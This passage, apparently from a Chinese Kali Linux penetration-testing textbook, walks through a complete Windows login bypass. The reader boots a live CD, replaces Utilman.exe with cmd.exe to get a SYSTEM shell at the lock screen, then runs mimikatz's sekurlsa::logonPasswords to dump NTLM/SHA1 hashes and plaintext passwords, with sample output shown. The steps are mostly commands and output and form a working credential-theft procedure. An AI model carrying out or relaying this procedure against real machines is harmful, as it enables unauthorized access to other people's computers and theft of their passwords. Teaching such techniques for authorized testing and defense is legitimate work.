









8.4 绕过Utilman登录
Utilman是Windows辅助工具管理器。该程序是存放在Windows系统文件中最重要的文件，通常情况下是在安装系统过程中自动创建的，对于系统正常运行来说至关重要。在Windows下，使用Windows+U组合键可以调用Utilman进程。本节将介绍绕过Utilman程序登录系统，就可以运行其他操作。
（1）在Windows界面，启动Kali Linux LiveCD，如图8.7所示。

图8.7 Kali Linux引导界面
（2）在该界面选择Live （686-pae），按下回车键即可启动Kali Linux，如图8.8所示。

图8.8 Kali Linux操作系统
（3）在该界面打开Windows文件系统。在Kali Linux桌面依次选择Places|43GB Filesystem选项，将打开如图8.9所示的界面。这里的43G表示当前Windows系统的磁盘大小。

图8.9 Windows磁盘中的文件和文件夹
（4）该界面显示了Windows操作系统中的文件和文件夹。这里依次打开Windows|System32文件夹，将显示如图8.10所示的内容。

图8.10 System32目录中的内容
（5）在该文件夹中找到Utilman.exe文件，将该文件重命名为Utilman.old。然后复制cmd.exe文件，并将其文件名修改为Utilman.exe。
（6）现在关闭Kali Linux，并启动Windows系统。在登录界面按下Windows+u组合键，将显示如图8.11所示的界面。

图8.11 Windows登录界面
（7）从该界面可以看到打开一个命令提示符窗口。在该窗口中，可以执行一些DOS命令。例如，使用whoami命令查看用户信息，将显示如图8.12所示的界面。

图8.12 用户权限信息
（8）从输出的界面可以看到，当前用户拥有最高的权限。此时，就可以进行任何的 操作。
学习了绕过Utilman登录后，可以使用mimikatz工具恢复目标系统锁定状态时用户的密码。下面将介绍使用mimikatz工具，从锁定状态恢复密码。
在操作之前需要做一些准备工作。首先从http://blog.gentilkiwi.com/mimikatz网站下载mimikatz工具，其软件包名为mimikatz_trunk.zip。然后将该软件包解压，并保存到一个USB磁盘中。本例中，将解压的文件保存到优盘的mimikatz目录中。
（1）在系统中安装Utilman Bypass，以便能执行一些命令。
（2）在锁定桌面的Windows桌面按下Windows+u组合键，如图8.13所示。

图8.13 启动命令行
默认情况下使用Windows+u组合键启动DOS窗口后，该窗口缓冲区的高度是30。当输出的数据较多时，将看不到所有的内容。所以需要到DOS窗口的属性菜单中，增加窗口的高度，如图8.14所示。

图8.14 属性菜单
在该界面选择“布局”标签，修改屏幕缓冲区大小下面的高度值。然后单击“确定”按钮，即可滚动鼠标查看所有内容。
（3）从图8.13中可以看到，Windows7系统处于锁定状态。此时通过在命令行执行一些命令恢复Windows用户密码。首先确认当前用户的权限，执行命令如下所示：
C:\Windows\system32> whoami
nt authority\system
（4）进入到USB磁盘中，并查看磁盘中的内容。本例中的USB磁盘号F：，执行命令如下所示：
C:\Windows\system32> F:
F:\>dir mimikatz
2014/05/26 03:45 4,311 README.md
2014/06/15 04:54 Win32
2014/06/15 04:54 x64
从输出的信息中，可以看到mimikatz目录中有三个文件。其中Win32和x64表示mimikatz的两个版本。根据自己的系统架构选择相应的版本，本例中的操作系统是32位，所以选择使用Win32。
（5）查看Win32目录中的内容：
F:\>cd mimikatz
F:\Mimikatz>cd win32
F:\Mimikatz\Win32>dir
2014/06/15 04:54 29,056 mimidrv.sys
2014/06/15 04:54 189,936 mimikatz.exe
2014/06/15 04:54 27,632 mimilib.dll
从输出的信息中，可以看到Win32目录中有三个文件。其中，mimikatz是一个可执行文件。
（6）运行mimikatz程序。执行命令如下所示：

输出信息显示了mimikatz的一些相关信息，其中mimikatz #提示符表示成功登录到了mimikatz程序。
（7）恢复密码。执行命令如下所示：
mimikatz # sekurlsa::logonPasswords
或：
mimikatz # sekurlsa::logonPasswords full
将输出如下所示的信息：
Authentication Id : 0; 10201252 (00000000:009ba8a4)
Session : Interactive from 1
User Name : lyw
Domain : Windows7Test
SID : S-1-5-21-2306344666-604645106-2825843324-1001
msv :
[00010000] CredentialKeys
* NTLM : 32ed87bdb5fdc5e9cba88547376818d4
* SHA1 : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
[00000003] Primary
* Username : lyw
* Domain : Windows7Test
* NTLM : 32ed87bdb5fdc5e9cba88547376818d4
* SHA1 : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
tspkg :
wdigest :
* Username : lyw
* Domain : Windows7Test
* Password : 123456
kerberos :
* Username : lyw
* Domain : Windows7Test
* Password : (null)
ssp :
credman :
从以上输出信息中，可以看到锁定用户的所有信息。如用户名、各种加密的HASH值、域名和密码等。